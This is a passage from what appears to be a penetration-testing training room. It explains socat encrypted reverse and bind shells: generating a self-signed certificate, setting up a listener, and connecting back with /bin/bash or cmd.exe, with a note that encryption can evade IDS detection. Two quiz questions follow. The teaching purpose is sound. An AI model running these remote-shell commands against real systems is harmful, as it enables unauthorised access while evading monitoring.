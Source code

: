 ### TASK 7. Socat Encrypted Shells

<p>One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.<br /></p><p>We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time <code>TCP</code> was used as part of a command, this should be replaced with <code>OPENSSL</code> when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates. </p><p>We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:</p><p>

  
  
  
  
  

</p><div><code>openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt</code><br /><br />This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.<br /></div><div>We then need to merge the two created files into a single <code>.pem</code> file:</div><div><br /></div><div><code>cat shell.key shell.crt &gt; shell.pem</code><br /></div><div><br /></div><div>Now, when we set up our reverse shell listener, we use:</div><div><br /></div><div><code>socat OPENSSL-LISTEN:&lt;PORT&gt;,cert=shell.pem,verify=0 -</code><br /></div><div><br /></div><div>This sets up an OPENSSL listener using our generated certificate. <code>verify=0</code> tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate <u><i>must</i></u> be used on whichever device is listening.<br /></div><div><br /></div><div>To connect back, we would use:</div><div><br /></div><div><code>socat OPENSSL:&lt;LOCAL-IP&gt;:&lt;LOCAL-PORT&gt;,verify=0 EXEC:/bin/bash</code><br /></div><div><br /></div><div>The same technique would apply for a bind shell:</div><div><br /></div><div>Target:</div><div><br /></div><div><code>socat OPENSSL-LISTEN:&lt;PORT&gt;,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes</code><br /></div><div><br /></div><div>Attacker:</div><div><br /></div><div><code>socat OPENSSL:&lt;TARGET-IP&gt;:&lt;TARGET-PORT&gt;,verify=0 -</code><br /></div><div><br /></div><div>Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.</div><div><br /></div><div>The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:</div><div><img style="width:1046px" src="https://i.imgur.com/UbOPN9q.png" /><br /></div><br /><div>This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.<br /></div>

----------------------------------------

### QUESTIONS:

----------------------------------------

1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

```
```

2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

```
```

----------------------------------------

### TASK 8. Common Shell Payloads
